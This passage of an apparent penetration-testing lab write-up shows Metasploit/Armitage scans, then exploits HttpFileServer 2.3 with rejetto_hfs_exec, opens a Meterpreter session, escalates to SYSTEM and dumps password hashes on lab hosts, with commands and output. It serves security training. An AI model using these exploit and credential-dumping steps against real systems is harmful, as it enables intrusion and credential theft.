PORTS => 50000, 21, 1720, 80, 443, 143, 623, 3306, 110, 5432, 25, 22, 23, 1521, 50013, 161, 2222, 17185, 135, 8080, 4848, 1433, 5560, 512, 513, 514, 445, 5900, 5901, 5902, 5903, 5904, 5905, 5906, 5907, 5908, 5909, 5038, 111, 139, 49, 515, 7787, 2947, 7144, 9080, 8812, 2525, 2207, 3050, 5405, 1723, 1099, 5555, 921, 10001, 123, 3690, 548, 617, 6112, 6667, 3632, 783, 10050, 38292, 12174, 2967, 5168, 3628, 7777, 6101, 10000, 6504, 41523, 41524, 2000, 1900, 10202, 6503, 6070, 6502, 6050, 2103, 41025, 44334, 2100, 5554, 12203, 26000, 4000, 1000, 8014, 5250, 34443, 8028, 8008, 7510, 9495, 1581, 8000, 18881, 57772, 9090, 9999, 81, 3000, 8300, 8800, 8090, 389, 10203, 5093, 1533, 13500, 705, 4659, 20031, 16102, 6080, 6660, 11000, 19810, 3057, 6905, 1100, 10616, 10628, 5051, 1582, 65535, 105, 22222, 30000, 113, 1755, 407, 1434, 2049, 689, 3128, 20222, 20034, 7580, 7579, 38080, 12401, 910, 912, 11234, 46823, 5061, 5060, 2380, 69, 5800, 62514, 42, 5631, 902, 5985, 5986, 6000, 6001, 6002, 6003, 6004, 6005, 6006, 6007, 47001, 523, 3500, 6379, 8834
msf6 auxiliary(scanner/portscan/tcp) > run -j
[*] Auxiliary module running as background job 1.
[+] 10.4.17.86:           - 10.4.17.86:80 - TCP OPEN ←
[+] 10.4.17.86:           - 10.4.17.86:135 - TCP OPEN ←
[+] 10.4.17.86:           - 10.4.17.86:139 - TCP OPEN ←
[+] 10.4.17.86:           - 10.4.17.86:445 - TCP OPEN ←
[+] 10.4.17.86:           - 10.4.17.86:5985 - TCP OPEN
[+] 10.4.17.86:           - 10.4.17.86:47001 - TCP OPEN
[*] 10.4.17.86:           - Scanned 1 of 1 hosts (100% complete)
```

_Conducting an Nmap scan for service and OS detection._

`Hosts` > `Nmap Scan` > `Quick Scan (OS detect)` > `10.4.17.86` > `Ok`:
```
msf6 > db_nmap --min-hostgroup 96 -sV -n -T4 -O -F --version-light 10.4.17.86
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2024-08-07 20:04 IST
[*] Nmap: Nmap scan report for 10.4.17.86
[*] Nmap: Host is up (0.0083s latency).
[*] Nmap: Not shown: 91 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3 ←
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC ←
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds ←
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  unknown
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: 49155/tcp open  unknown
[*] Nmap: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.91%E=4%D=8/7%OT=80%CT=7%CU=34829%PV=Y%DS=3%DC=I%G=Y%TM=66B38635
[*] Nmap: OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=7
[*] Nmap: OS:)OPS(O1=M546NW8ST11%O2=M546NW8ST11%O3=M546NW8NNT11%O4=M546NW8ST11%O5=M54
[*] Nmap: OS:6NW8ST11%O6=M546ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000
[*] Nmap: OS:)ECN(R=Y%DF=Y%T=7F%W=2000%O=M546NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=7F%S=O%A=S+
[*] Nmap: OS:%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=7F%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T
[*] Nmap: OS:=7F%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R%O=%RD=0
[*] Nmap: OS:%Q=)T5(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=7F%W=0%S
[*] Nmap: OS:=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
[*] Nmap: OS:=Y%DF=N%T=7F%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
[*] Nmap: OS:%T=7F%CD=Z)
[*] Nmap: Network Distance: 3 hops
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 41.59 seconds
```

_Listing services detected on the target host._

`10.4.17.86` (right-click) > `Services`:

| IP Address  | Service          | Port  | Protocol | Details                                      |
|-------------|------------------|-------|----------|----------------------------------------------|
| 10.4.17.86  | http             | 80    | tcp      | HttpFileServer httpd 2.3                     |
| 10.4.17.86  | msrpc            | 135   | tcp      | Microsoft Windows RPC                        |
| 10.4.17.86  | netbios-ssn      | 139   | tcp      | Microsoft Windows netbios-ssn                |
| 10.4.17.86  | microsoft-ds     | 445   | tcp      | Microsoft Windows Server 2008 R2 - 2012 microsoft-ds |
| 10.4.17.86  | ssl/ms-wbt-server| 3389  | tcp      |                                              |
| 10.4.17.86  |                  | 5985  | tcp      |                                              |
| 10.4.17.86  |                  | 47001 | tcp      |                                              |
| 10.4.17.86  | unknown          | 49152 | tcp      |                                              |
| 10.4.17.86  | unknown          | 49153 | tcp      |                                              |
| 10.4.17.86  | unknown          | 49154 | tcp      |                                              |
| 10.4.17.86  | unknown          | 49155 | tcp      |                                              |

### Exploitation and Post-Exploitation with Armitage - Lab

#### Lab Environment

In this lab, we will be picking up from where we left off in the previous lab.

**Goal**
This lab covers the process of performing exploitation and post-exploitation with Armitage.

**Pre-requisites**
- Basic familiarity with Nmap.
- Basic familiarity with the Metasploit Framework.

#### Lab Solution

`cat /root/Desktop/target`:
```
Victim Machine 1 : 10.4.22.250 ←
Victim Machine 2 : 10.4.22.227
```

_Starting the PostgreSQL service for Metasploit._

`service postgresql start`

_Launching Armitage._

`armitage`

_Adding the target host to Armitage._

`Hosts` > `Add Hosts...` > `10.4.22.250` > `Add`

_Performing a TCP scan on the target host._

`10.4.22.250` (right-click) > `Scan`:
```
[*] Building list of scan ports and modules
[*] Launching TCP scan
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.4.22.250
RHOSTS => 10.4.22.250
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 24
THREADS => 24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 50000, 21, 1720, 80, 443, 143, 623, 3306, 110, 5432, 25, 22, 23, 1521, 50013, 161, 2222, 17185, 135, 8080, 4848, 1433, 5560, 512, 513, 514, 445, 5900, 5901, 5902, 5903, 5904, 5905, 5906, 5907, 5908, 5909, 5038, 111, 139, 49, 515, 7787, 2947, 7144, 9080, 8812, 2525, 2207, 3050, 5405, 1723, 1099, 5555, 921, 10001, 123, 3690, 548, 617, 6112, 6667, 3632, 783, 10050, 38292, 12174, 2967, 5168, 3628, 7777, 6101, 10000, 6504, 41523, 41524, 2000, 1900, 10202, 6503, 6070, 6502, 6050, 2103, 41025, 44334, 2100, 5554, 12203, 26000, 4000, 1000, 8014, 5250, 34443, 8028, 8008, 7510, 9495, 1581, 8000, 18881, 57772, 9090, 9999, 81, 3000, 8300, 8800, 8090, 389, 10203, 5093, 1533, 13500, 705, 4659, 20031, 16102, 6080, 6660, 11000, 19810, 3057, 6905, 1100, 10616, 10628, 5051, 1582, 65535, 105, 22222, 30000, 113, 1755, 407, 1434, 2049, 689, 3128, 20222, 20034, 7580, 7579, 38080, 12401, 910, 912, 11234, 46823, 5061, 5060, 2380, 69, 5800, 62514, 42, 5631, 902, 5985, 5986, 6000, 6001, 6002, 6003, 6004, 6005, 6006, 6007, 47001, 523, 3500, 6379, 8834
PORTS => 50000, 21, 1720, 80, 443, 143, 623, 3306, 110, 5432, 25, 22, 23, 1521, 50013, 161, 2222, 17185, 135, 8080, 4848, 1433, 5560, 512, 513, 514, 445, 5900, 5901, 5902, 5903, 5904, 5905, 5906, 5907, 5908, 5909, 5038, 111, 139, 49, 515, 7787, 2947, 7144, 9080, 8812, 2525, 2207, 3050, 5405, 1723, 1099, 5555, 921, 10001, 123, 3690, 548, 617, 6112, 6667, 3632, 783, 10050, 38292, 12174, 2967, 5168, 3628, 7777, 6101, 10000, 6504, 41523, 41524, 2000, 1900, 10202, 6503, 6070, 6502, 6050, 2103, 41025, 44334, 2100, 5554, 12203, 26000, 4000, 1000, 8014, 5250, 34443, 8028, 8008, 7510, 9495, 1581, 8000, 18881, 57772, 9090, 9999, 81, 3000, 8300, 8800, 8090, 389, 10203, 5093, 1533, 13500, 705, 4659, 20031, 16102, 6080, 6660, 11000, 19810, 3057, 6905, 1100, 10616, 10628, 5051, 1582, 65535, 105, 22222, 30000, 113, 1755, 407, 1434, 2049, 689, 3128, 20222, 20034, 7580, 7579, 38080, 12401, 910, 912, 11234, 46823, 5061, 5060, 2380, 69, 5800, 62514, 42, 5631, 902, 5985, 5986, 6000, 6001, 6002, 6003, 6004, 6005, 6006, 6007, 47001, 523, 3500, 6379, 8834
msf6 auxiliary(scanner/portscan/tcp) > run -j
[*] Auxiliary module running as background job 1.
[+] 10.4.22.250:          - 10.4.22.250:80 - TCP OPEN ←
[+] 10.4.22.250:          - 10.4.22.250:135 - TCP OPEN
[+] 10.4.22.250:          - 10.4.22.250:139 - TCP OPEN
[+] 10.4.22.250:          - 10.4.22.250:445 - TCP OPEN
[+] 10.4.22.250:          - 10.4.22.250:5985 - TCP OPEN
[+] 10.4.22.250:          - 10.4.22.250:47001 - TCP OPEN
[*] 10.4.22.250:          - Scanned 1 of 1 hosts (100% complete)
```

_Conducting an Nmap scan for service and OS detection._

`Hosts` > `Nmap Scan` > `Quick Scan (OS detect)` > `10.4.22.250` > `Ok`:
```
msf6 > db_nmap --min-hostgroup 96 -sV -n -T4 -O -F --version-light 10.4.22.250
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2024-08-07 20:20 IST
[*] Nmap: Nmap scan report for 10.4.22.250
[*] Nmap: Host is up (0.0083s latency).
[*] Nmap: Not shown: 91 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3 ←
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  unknown
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: 49155/tcp open  unknown
[*] Nmap: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.91%E=4%D=8/7%OT=80%CT=7%CU=41388%PV=Y%DS=3%DC=I%G=Y%TM=66B389D0
[*] Nmap: OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=7
[*] Nmap: OS:)OPS(O1=M546NW8ST11%O2=M546NW8ST11%O3=M546NW8NNT11%O4=M546NW8ST11%O5=M54
[*] Nmap: OS:6NW8ST11%O6=M546ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000
[*] Nmap: OS:)ECN(R=Y%DF=Y%T=7F%W=2000%O=M546NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=7F%S=O%A=S+
[*] Nmap: OS:%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=7F%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T
[*] Nmap: OS:=7F%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R%O=%RD=0
[*] Nmap: OS:%Q=)T5(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=7F%W=0%S
[*] Nmap: OS:=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
[*] Nmap: OS:=Y%DF=N%T=7F%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
[*] Nmap: OS:%T=7F%CD=Z)
[*] Nmap: Network Distance: 3 hops
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 41.58 seconds
```

_Opening the target URL in Firefox._

`firefox http://10.4.22.250:80 &`

_Using the rejetto_hfs_exec exploit module to gain access._

`exploit` > `windows` > `http` > `rejetto_hfs_exec` > `set RHOSTS 10.4.22.250` > `Launch`:
```
msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set TARGETURI /
TARGETURI => /
msf6 exploit(windows/http/rejetto_hfs_exec) > set TARGET 0
TARGET => 0
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.4.22.250
RHOSTS => 10.4.22.250
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(windows/http/rejetto_hfs_exec) > set HTTPDELAY 10
HTTPDELAY => 10
msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 27872
LPORT => 27872
msf6 exploit(windows/http/rejetto_hfs_exec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 80
RPORT => 80
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 8080
SRVPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set SSL false
SSL => false
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[*] Using URL: http://0.0.0.0:8080/CLYyOPht
[*] Local IP: http://10.10.80.2:8080/CLYyOPht
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /CLYyOPht
[*] Started bind TCP handler against 10.4.22.250:27872
[*] Sending stage (175174 bytes) to 10.4.22.250
[!] Tried to delete %TEMP%\GTmElmjhGpgqj.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.80.2:39565 -> 10.4.22.250:27872) at 2024-08-07 20:27:25 +0530 ←
```

_Interacting with the meterpreter session._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Interact` > `Meterpreter Shell`

_Verifying the user context._

`getuid`:
```
Server username: WIN-OMCNBKR66MN\Administrator ←
```

_Trying to dump password hashes._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Access` > `Dump Hashes` > `lsass method`:
```
meterpreter> hashdump
[*] Dumping password hashes...
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[-] hashdump failed. Ask yourself: ←

1) Do I have system privileges?

No? Then use Access -> Escalate Privileges ←

2) Is meterpreter running in a process owned by a System user?

No? Use Explore -> Show Processes and migrate to a process owned by a System user.
```

_Attempting to escalate privileges to SYSTEM._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Access` > `Escalate Privileges`

`post` > `windows` > `escalate` > `getsystem` > `set SESSION 1` > `Launch`:
```
msf6 > use post/windows/escalate/getsystem
msf6 post(windows/escalate/getsystem) > set TECHNIQUE 0
TECHNIQUE => 0
msf6 post(windows/escalate/getsystem) > set SESSION 1
SESSION => 1
msf6 post(windows/escalate/getsystem) > run -j
[*] Post module running as background job 4.
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

_Verifying SYSTEM privileges._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Attempting to dump password hashes again._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Access` > `Dump Hashes` > `lsass method`:
```
meterpreter> hashdump
[*] Dumping password hashes...
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[-] hashdump failed. Ask yourself: ←

1) Do I have system privileges?

No? Then use Access -> Escalate Privileges

2) Is meterpreter running in a process owned by a System user? 

No? Use Explore -> Show Processes and migrate to a process owned by a System user. ←
```

_Migrating the meterpreter session to a SYSTEM process._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Explore` > `Show Processes` > `svchost.exe` > `Migrate`

_Successfully dump password hashes._

`10.4.22.250` (right-click) > `Meterpreter 1` > `Access` > `Dump Hashes` > `lsass method`:
```
meterpreter> hashdump
[*] Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20::: ←
[+] 	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

---
---
